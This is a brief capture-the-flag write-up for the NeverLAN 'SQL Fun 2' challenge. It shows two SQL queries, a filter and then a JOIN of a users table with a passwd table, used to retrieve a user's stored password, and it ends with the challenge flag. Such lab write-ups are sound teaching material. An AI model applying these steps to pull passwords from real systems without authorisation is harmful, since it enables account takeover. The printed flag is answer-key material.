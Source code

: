 [SQL Fun 2]
---
Question:
---
	REPORT: A Client forgot his Password... again. Could you get it for me? He has a users account and his Lname is Miller if that helps at all. Oh! and Ken was saying something about a new table called passwd; said it was better to separate things
	
	https://challenges.neverlanctf.com:1155

Answer
---
	1. Construct SQLi string to get username and table: SELECT * FROM users WHERE Lname="Miller"

![alt text](https://i.imgur.com/hHdkfAt.png)

	2. Join this table with the passwd table: SELECT * FROM users JOIN passwd WHERE Lname="Miller"

![alt text](https://i.imgur.com/I9G9O1w.png)

Flag:
---
	flag{W1ll_Y0u_J01N_M3?}